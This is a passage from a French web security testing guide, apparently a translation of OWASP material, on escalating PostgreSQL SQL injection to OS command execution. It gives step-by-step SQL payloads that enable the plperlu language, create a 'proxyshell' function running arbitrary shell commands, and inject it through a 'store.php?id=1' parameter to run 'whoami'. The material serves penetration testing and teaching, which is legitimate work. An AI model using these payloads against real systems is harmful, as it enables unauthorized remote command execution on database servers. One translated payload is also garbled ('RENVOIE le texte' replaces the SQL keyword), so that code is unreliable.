 - Vérifiez si PL/perl-untrusted a été activé : `SELECT count(*) FROM pg_language WHERE lanname='plperlu'`
- Si ce n'est pas le cas, en supposant que sysadm a déjà installé le paquet plperl, essayez : `CREATE LANGUAGE plperlu`
- Si l'une des actions ci-dessus a réussi, créez une fonction proxy shell : `CREATE FUNCTION proxyshell(text) RETURNS text AS 'open(FD,"$_[0] |");return join("",<FD>); ' LANGUAGE plperlu`
- Amusez-vous avec : `SELECT proxyshell (commande os);`

###### exemple

- Créez une fonction shell proxy : `/store.php?id=1 ; CREATE FUNCTION proxyshell(text) RENVOIE le texte AS 'open(FD,"$_[0] |");return join("",<FD>);' LANGUAGE plperlu;`
- Exécutez une commande du système d'exploitation : `/store.php?id=1 UNION ALL SELECT NULL, proxyshell('whoami'), NULL OFFSET 1 ;--`

## Références

- [Test pour l'injection SQL](05-Testing_for_SQL_Injection.md)
- [Aide-mémoire sur la prévention des injections SQL](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [Documentation officielle PostgreSQL](https://www.postgresql.org/docs/)
- [Bernardo Damele et Daniele Bellucci : sqlmap, un outil d'injection SQL en aveugle](https://sqlmap.org/)
